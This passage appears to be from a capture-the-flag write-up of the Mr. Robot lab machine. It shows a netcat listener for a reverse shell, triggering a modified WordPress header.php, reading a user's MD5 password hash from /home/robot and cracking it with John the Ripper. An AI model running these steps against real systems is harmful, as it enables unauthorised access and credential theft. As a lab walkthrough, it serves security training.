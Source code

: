 ## Reverse Shell

Initiate a netcat listner in terminal:
```
└──╼ $nc -lnvp 6565
```

Here, it got a bit confusing for me as how to initiate our php code after modifying the header file, so we can still forcefully execute it by putting the following url in the browser:

https://MACHINE.IP/wp-admin/header.php

### Machine Exploration

We got the shell, now let's do some exploration as how many users are there and what file do they have:

```
daemon@linux:/$ ls /home
ls /home
robot

daemon@linux:/$ ls /home/robot
ls /home/robot
key-2-of-3.txt
password.raw-md5

daemon@linux:/$ ls -l /home/robot
ls -l /home/robot
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5

daemon@linux:/$ cat /home/robot/password.raw-md5
cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

daemon@linux:/$ 
```

### Password Cracking

Here, we can read the password from the file for user `robot` but its a hash, and upon inspecting, it's a raw md5 hash, let's crack it using John-The-Ripper

For wordlist, we will use the one we got earlier.

```
$john --format=raw-md5 key2md5pass.txt --wordlist=../Other_Files/fsocity.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2024-10-12 23:38) 0g/s 2523Kp/s 2523Kc/s 2523KC/s 8output..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed. 
```
